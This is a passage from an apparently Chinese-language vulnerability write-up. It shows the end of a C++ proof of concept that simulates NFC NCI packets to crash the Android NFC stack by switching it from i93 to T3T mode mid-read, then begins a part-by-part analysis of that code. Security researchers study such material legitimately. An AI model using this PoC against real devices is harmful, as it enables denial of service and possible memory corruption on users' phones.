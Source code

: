```
      deactivate_rf.data(), deactivate_rf.size());
 
  {
    std::unique_lock deactivated_lock(cv_mutex);
    deactivated_cv.wait(deactivated_lock);
  }
 
  std::vector activate_another_rf = {
      /* disc_id */ 0x0, NFC_DISCOVERY_TYPE_LISTEN_F, NFC_PROTOCOL_T3T};
  for (int i = 0; i < 70; i++) {
    activate_another_rf.push_back(0x2);
  }
  g_callback_tracker->SimulatePacketArrival(
      NCI_MT_NTF, 0, NCI_GID_RF_MANAGE, NCI_MSG_RF_INTF_ACTIVATED,
      activate_another_rf.data(), activate_another_rf.size());
 
  {
    std::unique_lock t3t_get_system_codes_lock(cv_mutex);
    t3t_get_system_codes_cv.wait(t3t_get_system_codes_lock);
  }
 
  NFA_Disable(true);
 
  {
    std::unique_lock nfa_disable_lock(cv_mutex);
    nfa_disable_cv.wait(nfa_disable_lock);
  }
} 
```

构造 poc 思路大致是 先让系统处于 i93 模式 然后发读数据请求 发完以后马上让从 i93 切换到 t3t 然后就崩溃

 

接下来把 poc 拆成几个部分逐一分析

### part1

第一部分代码是

```
CallbackTracker tracker;
 g_callback_tracker = &tracker;
 
 NfcAdaptation& theInstance = NfcAdaptation::GetInstance();
 theInstance.Initialize();
 
 NFA_Init(&entry_funcs);
 NFA_Enable(nfa_dm_callback, nfa_conn_callback);
 usleep(5000);

```

NFA_Init(&entry_funcs) 用于初始化 NFA 的控制块. 控制块的作用类似 Windows 中的 PEB 结构体
